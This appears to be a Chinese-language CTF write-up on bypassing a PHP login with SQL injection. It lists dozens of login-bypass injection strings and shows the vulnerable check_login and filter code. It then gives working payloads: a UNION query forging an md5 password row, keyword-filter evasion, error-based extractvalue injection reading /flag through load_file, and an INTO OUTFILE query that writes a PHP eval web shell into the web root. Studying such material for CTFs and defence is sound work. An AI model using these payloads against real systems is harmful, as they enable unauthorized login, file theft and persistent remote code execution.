




SQL注入 Union 万能密码绕过登录验证

<!--more-->

## 常见的绕过登录验证方式：

### 万能密码：

```sql
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1

```

### BurpSuite 弱口令爆破：



## 针对本次题目的解法总结：

### 查看登录验证源码：

```php
function check_login($user,$password){
	$rel=$GLOBALS['mysql']->fetch_asc("select id,admin_name,admin_password,admin_purview,is_disable from ".DB_PRE."admin where admin_name='".$user."' limit 0,1");	
	$rel=empty($rel)?'':$rel[0];
	if(empty($rel)){
		msg('不存在该管理用户','login.php');
	}
	$password=md5($password);
	if($password!=$rel['admin_password']){
		msg("输入的密码不正确");
	}
	if($rel['is_disable']){
		msg('该账号已经被锁定,无法登陆');
	}
	
	$_SESSION['admin']=$rel['admin_name'];
	$_SESSION['admin_purview']=$rel['admin_purview'];
	$_SESSION['admin_id']=$rel['id'];
	$_SESSION['admin_time']=time();
	$_SESSION['login_in']=1;
	$_SESSION['login_time']=time();
	$ip=fl_value(get_ip());
	$ip=fl_html($ip);
	$_SESSION['admin_ip']=$ip;
	unset($rel);
	header("location:admin.php");
}
```

可以判断是先验证用户名，然后通过用户名查询到结果来校验密码项，并且对传入的 password 参数进行了md5 加密，因此可以用 union 构造一个虚表覆盖掉查询结果，payload 如下：

```sql
admin' union select 1,1,md5('password'),1,0;#
```

其中 admin 和 password 可以是任意值，只需要在密码登录框填入相同的password 值即可；提交后发现被过滤了关键词：



### 查看源码发现过滤代码：

```php
function fl_value($str){
	if(empty($str)){return;}
	return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
}
```

### 重新构造 payload 即可成功登录：

```sql
admin' uni*on selselectect 1,1,md5('password'),1,0;#
```

### 因为出现了数据库报错，可以进一步利用报错注入：

查询数据库：

```sql
admin'^extractvalue(0x0a,concat(0x0a,(seselectlect database())));#
```

用 load_file() 获取flag：

```sql
1'^extractvalue(0x0a,concat(0x0a,(load_file('/flag'))));#
1'^extractvalue(0x0a,concat(0x0a,right((load_file('/flag')),30)));#
```





由于extractvalue(）返回长度限制，需要拼接得到 flag。

### 甚至可以使用 into outfile 写入一句话木马：

```sql
1'un*ion seselectlect 1,1,md5(1),'<?php @eval($_POST[1])?>',0 in*to ououtfiletfile '/var/www/html/shell.php';#
```
